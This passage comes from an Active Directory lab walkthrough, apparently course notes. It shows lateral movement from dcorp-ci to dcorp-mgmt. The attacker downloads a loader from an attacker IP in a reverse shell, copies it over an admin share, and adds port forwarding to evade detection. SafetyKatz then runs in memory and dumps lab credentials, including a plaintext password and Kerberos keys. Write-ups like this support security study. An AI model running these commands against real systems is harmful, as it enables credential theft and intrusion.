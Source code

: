 ```powershell
COMPUTERNAME=DCORP-MGMT
USERNAME=ciadmin
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Now, the idea is to extract credentials from it, we can do it using SafetyKatz.exe, to do that, we need to copy Loader.exe on dcorp-mgmt.

* Download Loader.exe on dcorp-ci
* Copy it from there to dcorp-mgmt.

Run the following command on the reverse shell:

```powershell
iwr http://172.16.100.67/Loader.exe -OutFile C:\Users\Public\Loader.exe
```

Copy the Loader.exe to dcorp-mgmt:

```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

<figure><img src="../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

Using winrs, add the following port forwarding on dcorp-mgmt to avoid detection on dcorp-mgmt:

```powershell
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.67"
```

We're using the $null variable to address output redirection issues.\


To run SafetyKatz on dcorp-mgmt, we will download and execute it in-memory using the Loader. Run the following command on the reverse shell:

```powershell
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"
```

```powershell
Authentication Id : 0 ; 86511 (00000000:000151ef)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:52 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8
```
